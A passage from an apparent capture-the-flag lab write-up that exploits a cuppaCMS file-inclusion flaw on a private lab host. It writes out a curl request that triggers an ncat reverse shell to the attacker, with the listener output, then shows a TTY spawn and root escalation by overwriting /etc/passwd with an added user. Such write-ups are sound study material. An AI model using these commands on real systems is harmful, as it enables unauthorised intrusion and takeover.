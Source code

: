 ``` bash
root@kali:~$ curl -s "http://192.168.179.129/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.179.1/back.txt&cmd=ncat%20192.168.179.1%20443%20-e%20/bin/bash%20--ssl"
```
We got a shell with limited permissions and I used python to spawn a TTY shell, as shown below.
``` bash
root@kali:~$ nc -vlnp 443 --ssl
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B8AD 2215 76EA E761 6B75 9B68 FB2A 48B2 7067 4C38
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.179.129.
Ncat: Connection from 192.168.179.129:39134.
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ uname -a
Linux bravery 3.10.0-862.3.2.el7.x86_64 #1 SMP Mon May 21 23:36:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

```

## Privilege Escalation
### SUID Privileges
Listing SUID permissions, I found the **cat** command which is potentially dangerous, wich we will take advantage of to escalate privileges.

``` bash
bash-4.2$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/cp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/chage
...
```
Located in the directory **temp** redirect the content of **/etc/passwd** to a file in the current directory.
``` bash
bash-4.2$ cd /tmp
bash-4.2$ cat /etc/passwd > passwd
```
On the attacking machine we generate a password hash with **openssl**, as shown below:

``` bash
root@kali:~$ openssl passwd -1 br4vR00t
$1$um05ZRrH$2I3eWNoc.MLsPEoEp1LCM.
```

Then we create the **s4rgaz** user and redirect to the **passwd** file in the current directory, we verify that the user was created, we copy the **passwd** file to **/etc/passwd**, we change to the **s4rgaz** user providing the password and we got root.
